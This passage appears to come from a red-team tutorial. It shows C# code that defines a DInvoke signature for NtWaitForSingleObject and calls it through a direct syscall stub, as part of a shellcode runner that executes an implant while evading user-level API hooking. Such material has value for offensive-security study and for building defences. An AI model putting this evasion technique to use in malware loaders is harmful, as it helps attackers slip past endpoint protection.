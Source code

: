 #### Creating a New DInvoke API Signature

Next, the signature. As a base, the DInvoke signatures in the DInvoke code base can be searched for sigs of the same type, `public static DInvoke.Data.Native.NTSTATUS` and (hopefully) handling the same data, such as handles. Next, we define the arguments passed to the function definition. The next modification was to modify the arguments passed to the `object[]` array. Then, modify the API function name passed to both `DynamicAPIInvoke` and the delegate passed to `typeof`. Finally, we modify the name of the parameter that is set by calling the function and its return value. The final code is as follows. 

```csharp
public class TinyDinvoke
{
    //API signature
    public static DInvoke.Data.Native.NTSTATUS NtWaitForSingleObject(IntPtr hHandle, bool Alertable, IntPtr TimeOut)
    {
        object[] funcargs = {
        hHandle,Alertable,TimeOut
        };

        DInvoke.Data.Native.NTSTATUS retvalue = (DInvoke.Data.Native.NTSTATUS)DInvoke.DynamicInvoke.Generic.DynamicAPIInvoke(@"ntdll.dll", @"NtWaitForSingleObject", typeof(MYDELEGATES.NtWaitForSingleObject), ref funcargs);
        hHandle = (IntPtr)funcargs[0];
        
        return retvalue;
    }
}
```

#### Execution

With the new delegate and signature defined, we can implement the setup and execution of the syscall. If the delegate and signature are right, this step will not be much different then using already defined functions. 

```csharp
// setup
syscall = DInvoke.DynamicInvoke.Generic.GetSyscallStub("NtWaitForSingleObject");
Console.WriteLine("[>] syscall: " + syscall);
MYDELEGATES.NtWaitForSingleObject syscallWaitForSingleObject = (MYDELEGATES.NtWaitForSingleObject)Marshal.GetDelegateForFunctionPointer(syscall, typeof(MYDELEGATES.NtWaitForSingleObject));

// exec
syscallWaitForSingleObject(hThread, false, IntPtr.Zero);
```

## Investigation

After translating the PInvoke version of the basic runner to a DInvoke version, the runner can now execute the implant shellcode with syscalls, evading hooking done at the user (kernel32.dll) level.

### Shells
